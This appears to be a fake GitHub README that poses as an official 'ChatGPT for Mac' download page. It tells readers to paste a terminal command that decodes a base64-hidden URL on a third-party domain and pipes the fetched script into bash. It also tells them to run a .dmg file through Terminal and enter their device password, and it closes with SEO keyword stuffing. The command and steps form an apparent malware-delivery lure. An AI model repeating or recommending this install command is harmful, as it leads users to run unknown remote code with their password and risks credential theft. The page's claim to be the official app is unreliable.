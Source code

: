 # ChatGPT for Mac Download

![ChatGPT for Mac](https://techcrunch.com/wp-content/uploads/2024/06/chatgpt-mac.jpg?resize=1200,672)

---

## 📥 Download

[![⬇️ Download Now](https://img.shields.io/badge/ChatGPT-Download%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/chatgpt)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🤖 What is ChatGPT for Mac?

**ChatGPT for Mac** is the official macOS desktop application developed by OpenAI, allowing users to seamlessly interact with one of the world’s most advanced language models—right from their Mac desktop. The app provides a native interface for real-time AI-powered assistance, eliminating the need to open a web browser. It's a lightweight, responsive, and highly integrated experience that brings the full capabilities of ChatGPT to your local macOS environment.

With ChatGPT for Mac, users can write, code, summarize, translate, plan, brainstorm, and more—all within a clean, distraction-free window. Whether you're a writer creating compelling content, a developer debugging code, a student researching complex topics, or a business user drafting emails or documents, ChatGPT adapts to your needs and saves you time.

This app supports GPT-3.5 for free users and unlocks GPT-4 capabilities for ChatGPT Plus subscribers. Users can also access **custom GPTs**, explore **memory-based conversations**, and sync their usage across multiple devices with their OpenAI account. The app includes convenient features like conversation history, theme support (light/dark), and system-level keyboard shortcuts for quick access.

Fully optimized for **Apple Silicon (M1, M2, M3)** and macOS versions including **Sonoma**, **Ventura**, and **Monterey**, ChatGPT for Mac offers blazing-fast performance and native system integration. It works perfectly on both Intel and ARM-based Macs and adapts its interface based on system appearance. Thanks to its minimal resource usage and efficient caching, the app delivers a responsive AI experience even with multiple conversations running.

Whether you're using it for creative inspiration, research, writing, education, personal productivity, or technical problem-solving, **ChatGPT for Mac** is an essential tool that brings the power of artificial intelligence directly into your macOS workflow—without compromise.

---

## 💻 Compatibility

- macOS 12 Monterey and newer
- Full support for **macOS Ventura** and **Sonoma**
- Optimized for **Apple Silicon (M1/M2/M3)**
- Compatible with Intel Macs
- Native support for Dark Mode

---

## 🖼️ Preview

![App Preview](https://techcrunch.com/wp-content/uploads/2024/11/openai-square.jpg?w=1024)

---

## ✨ Features

- Ask questions, write code, brainstorm ideas
- Access GPT-3.5 or GPT-4 (Plus required)
- Clean, distraction-free desktop interface
- Custom GPT support
- Secure login with OpenAI account
- Keyboard shortcut for instant access
- Saves and syncs conversation history
- Light and dark theme support

---

## 🔑 Keywords

`chat gpt mac`, `chat gpt for mac`, `download chat gpt for mac`,  
`chatgpt download mac`, `chat gpt download mac`, `chat gpt app for mac`,  
`chatgpt download for mac`, `chat gpt app mac`, `chat gpt mac app`,  
`chat gpt mac download`, `chat gpt download for mac`, `chat gpt for mac download`

---

